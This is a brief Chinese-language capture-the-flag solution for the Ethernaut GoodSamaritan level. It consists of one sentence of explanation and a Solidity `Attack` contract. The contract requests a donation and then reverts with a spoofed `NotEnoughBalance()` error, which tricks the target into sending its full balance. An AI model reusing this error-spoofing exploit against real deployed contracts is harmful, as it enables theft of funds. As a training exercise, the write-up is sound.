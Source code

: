 在接受代币的合约中实现 `notify` 并抛出 `NotEnoughBalance()` 即可。

```solidity
pragma solidity >=0.8.0;

import {INotifyable, GoodSamaritan} from "./GoodSamaritan.sol";

contract Attack is INotifyable {
    error NotEnoughBalance();

    function attack(address _level) public {
        GoodSamaritan(_level).requestDonation();
    }

    function notify(uint256 amount) public pure {
        if (amount == 10)
            revert NotEnoughBalance();
    }
}
```

